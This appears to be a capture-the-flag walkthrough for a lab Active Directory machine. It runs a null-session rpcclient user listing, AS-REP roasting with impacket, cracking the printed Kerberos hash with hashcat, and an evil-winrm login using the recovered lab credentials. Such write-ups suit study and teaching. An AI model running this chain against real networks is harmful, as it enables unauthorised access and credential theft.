



# user

## rpcclient
````bash
rpcclient -U "" -N 10.10.10.161
````



rpcclient allowing logon without password

<HR>

## enumerating users
````bash
rpcenumusers
````



<div class="myprediv">
user:[<span class="myYellow">sebastien</span>] rid:[0x479]
user:[<span class="myYellow">lucinda</span>] rid:[0x47a]
user:[<span class="myYellow">svc-alfresco</span>] rid:[0x47b]
user:[<span class="myYellow">andy</span>] rid:[0x47e]
user:[<span class="myYellow">mark</span>] rid:[0x47f]
user:[<span class="myYellow">santi</span>] rid:[0x480]
</div>


## users

sebastien
lucinda
svc-alfresco
andy
mark
santi

<HR>

## AS-REP Roasting


```
python3 impacket/GetNPUsers.py htb.local/ -usersfile users.txt -format hashcat -outputfile hashes.txt
```


````bash
cat hashes.txt 
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4104ec598c10d98c4ac31c3b85d58e9e$d270f2be4d4f5f6acf581985a9929e34db1488cff5dc2f0773c31ef4f74734e1ef4aa9fe672feeb5b855ed63506b3991853c6b3faf129a67b6daa651ae7081b8dfe57eda8693e6d4682fbdfe342e54a9478072f8ac9b2cf6dc48c8fcbd27dcd385dbe068c8d7c53f224202bc37765abe1f8a58dac77a1bc82c44338c4eed04a6c926f8944a6238fecd527e881da12a2d75d3929d849945978343ee38378b09767d09bb6f95f3231bcbc56a35714cf4a3b57d7eaacc4d43db336bf86e77b9734aeb2fb860f4feae32bfa38149ca9afa6945c4c8da526a5f6c22aab3c7e7c6f625b073c8cd7063
````
	

<HR>

## haschcat

````bash
hashcat -m 18200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --force -o result.txt
````


credentials are <span class="myYellow" style="font-weight:bold;">svc-alfresco:s3rvice</span>
	
<HR>
	

## evil-winrm

 if not installed, install evil-winrm using

````bash
sudo gem install evil-winrm
````

login with evil-winrm

````bash
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
````



